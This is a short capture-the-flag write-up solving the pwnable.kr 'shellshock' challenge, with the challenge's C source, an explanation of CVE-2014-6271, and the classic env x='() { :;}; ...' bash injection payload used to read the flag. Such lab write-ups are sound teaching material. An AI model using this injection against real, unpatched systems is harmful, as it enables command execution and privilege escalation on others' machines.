 # **shellshock**

```shell=
ssh shellshock@pwnable.kr -p2222
```

```shell=
#include                                                 
int main(){                                                       
        setresuid(getegid(), getegid(), getegid());               
        setresgid(getegid(), getegid(), getegid());               
        system("/home/shellshock/bash -c 'echo shock_me'");       
        return 0;                                                 
}
```

Here, the name of this challenge is also a hint of it.

![](https://i.imgur.com/KXl1GC0.png)

So, the source code is really clearly that it set real effective set userId and groupId for calling the vulnerable CVE-2014-6271 bash.

The sample payload of this vulnerability is: 
```shell=
env x='() { :;}; echo vulnerable' bash -c "echo this is a test"
```

```() { :;}``` means setting /bin/true to environment and return true then finish.

However, if this shell are in vulnerable version, it will execute the code between ```env x='() { :;};``` and ```' bash -c "echo this is a test"```.

Like this sample, it will print out `vulnerable` to shell, if the shell is vulnerable.

![](https://i.imgur.com/1jGyh5v.png)

You can see that the shell given by challenge isn't vulnerable but `./shellshock` is.

All the code in `shellshock` all lead to return a vulnerable shell by changing `real effective set userID` and `groupID`.

So, we can simply `/bin/cat flag` to make it print out the falg.

![](https://i.imgur.com/s0qtVjV.png)


